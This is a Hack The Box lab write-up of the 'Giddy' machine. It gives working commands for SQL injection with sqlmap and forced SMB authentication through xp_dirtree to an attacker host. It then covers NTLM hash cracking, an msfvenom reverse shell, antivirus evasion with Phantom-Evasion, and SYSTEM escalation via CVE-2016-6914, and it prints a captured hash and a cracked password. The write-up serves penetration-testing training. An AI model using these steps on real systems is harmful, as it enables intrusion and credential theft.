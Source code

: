 ```yaml
---
layout: post
title:  "Hack The Box Giddy writeup (w/o Metasploit)"
date:   2019-10-22 11:52:14 -0400
featured_img: "/assets/giddy-10.10.10.104.png"
categories: giddy HTB
---
```


10.10.10.104 - Giddy
![Giddy](/assets/giddy-10.10.10.104.png)


First of all we will start with nmap.

`nmap -sC -sV -O 10.10.10.104`

![nmap](/assets/nmap-10.10.10.104.png) Ports 80 and 443 are open. Name of the machine is 'Giddy'


Let's try searching directories on the server:

`root@kali:~/dirsearch# python3 dirsearch.py -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e asp -f -t 20 -u 10.10.10.104`

![dirsearch](/assets/dirsearch-10.10.10.104.png)


Here we can see two interesting paths:
- /remote
- /mvc


Let start with `/remote`

![dirsearch](/assets/remote-10.10.10.104.png)

We need credentials to login. But we do not have those. So let's look elsewhere.

Now let's try `/mvc`

![dirsearch](/assets/mvc-10.10.10.104.png)



Let's check for SQL injections
![search](/assets/search-10.10.10.104.png)

adding ' in the end of string gives us an error
![SQL injection](/assets/search-sqli-10.10.10.104.png)

So lets try running sqlmap

`sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10 --dump`

![SQL injection](/assets/sqlmap-10.10.10.104.png)

We are dealing with MSSQL server here



Given command will dump tables to `/root/.sqlmap/output/10.10.10.104/dump/Injection/`

![SQL injection](/assets/sqlmap-files-10.10.10.104.png)

But the only useful info we could find is the user --> `Stacy`

Ok. So what's next?
After some googling around I noticed that everybody was pointing to this post [https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html][xpdirtree] about xp_dirtree.

`xpdirtree : 1; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19\share'`

![SQL request](/assets/sqli-request-10.10.10.104.png)

We can try to capture NTLM hash using extended stored procedure `xp_dirtree` by making it connect to our [smbserver](https://github.com/SecureAuthCorp/impacket) or [Responder](https://github.com/lgandx/Responder).
Good article on responder [Pwning with Responder – A Pentester’s Guide](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)

So, let's start smbserver.py that will listen on our Kali machine

![listen with smbserver.py](/assets/smbserver-10.10.10.104.png)


request:

`https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=10; EXEC MASTER.sys.xp_dirtree '\\10.10.14.19'`

listen with smbserver.py

`/root/impacket/examples/smbserver.py share ~/emptyfolder/`

Alternatively we can listen with responder:

`./Responder.py -I tun0 -w -r -f`

Either way we will get hash:

{% highlight shell %}
Stacy::GIDDY:
4141414141414141:e2b88cdd4f99f01556ca0199ca1db0e0:010100000000000000b58d3b6879d50
{% endhighlight %}

So I saved it to giddy_hash.txt file and try to crack it.
We can do it using `hashcat` or `john`

hashcat

![hashcat part 1](/assets/hashcat-10.10.10.104.png)

![hashcat part 2](/assets/hashcat2-10.10.10.104.png)

john

`john --wordlist=/usr/share/wordlists/rockyou.txt giddy_hash.txt`

![john](/assets/john-10.10.10.104.png)

password: xNnWo6272k7x

So now, let's go to /remote and try to login with our creds

![login](/assets/login-10.10.10.104.png)

Congrats, we are in.

![login](/assets/user-flag-10.10.10.104.png)

and so, we got user.

Inside Documents folder we found a file name unifivideo.
Let's google it. Turns out there is a privesc cve ( CVE-2016-6914 ) for this application.
Here is a good explanation on how we can take advantage of it [https://www.exploit-db.com/exploits/43390][43390]

This part is the most interesting for us:

`By copying an arbitrary "taskkill.exe" to "C:\ProgramData\unifi-video\" as an
unprivileged user, it is therefore possible to escalate privileges and execute
arbitrary code as NT AUTHORITY/SYSTEM.`

So all we need here is to generate reverse shell file, name it taskkill.exe, copy it onto the
system and place it inside `C:\ProgramData\unifi-video\` folder.
Sounds easy.

So, first, we should generate reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=443 -f exe > taskkill.exe`

![msfvenom](/assets/msfvenom-10.10.10.104.png)

Serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload our file:

`Invoke-WebRequest -o taskkill.exe http://10.10.14.19/taskkill.exe`

![login](/assets/bad-upload-10.10.10.104.png)


Oh no, something is wrong


Our file is not there. Why? Probably an antivirus blocking us from doing what we want.
There is a tool called phantom evasion ([https://github.com/oddcod3/Phantom-Evasion][Phantom]) that
will help obfuscate code of our reverse shell so antivirus can't recognize and block it.

![phantom1](/assets/phantom1-10.10.10.104.png)

Start the script

/Phantom-Evasion# `python phantom-evasion.py`

We will use following options.
1 windows modules ,
1 shellcode injection
4 windows shellcode injection heapalloc

![phantom2](/assets/phantom2-10.10.10.104.png)

here we choose Msfvenom

payload: `windows/shell_reverse_tcp`

And for encoding option 4: `x86/xor_dynamic + Triple Multibyte-key xor`

![phantom3](/assets/phantom3-10.10.10.104.png)

for multi processes behaviour , stripping and signing the executable we choose not to do that
This time when we upload the file it will work

Again, serve contents of our folder with python `python -m SimpleHTTPServer 80`

and upload taskkill.exe file to C:\ProgramData\unifi-video\

`Invoke-WebRequest -o C:\ProgramData\unifi-video\taskkill.exe http://10.10.14.19/taskkill.exe`


Lets restart service and see what is going on:
Restart-Service -Name "Ubiquiti UniFi Video"

![Restart Service](/assets/restart-service-10.10.10.104.png)

so we got the system

![root shell](/assets/root-shell-10.10.10.104.png)

And here goes our root flag

![Root flag](/assets/root-flag-10.10.10.104.png)



[43390]: https://www.exploit-db.com/exploits/43390
[Phantom]:   https://github.com/oddcod3/Phantom-Evasion
[xpdirtree]: https://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html
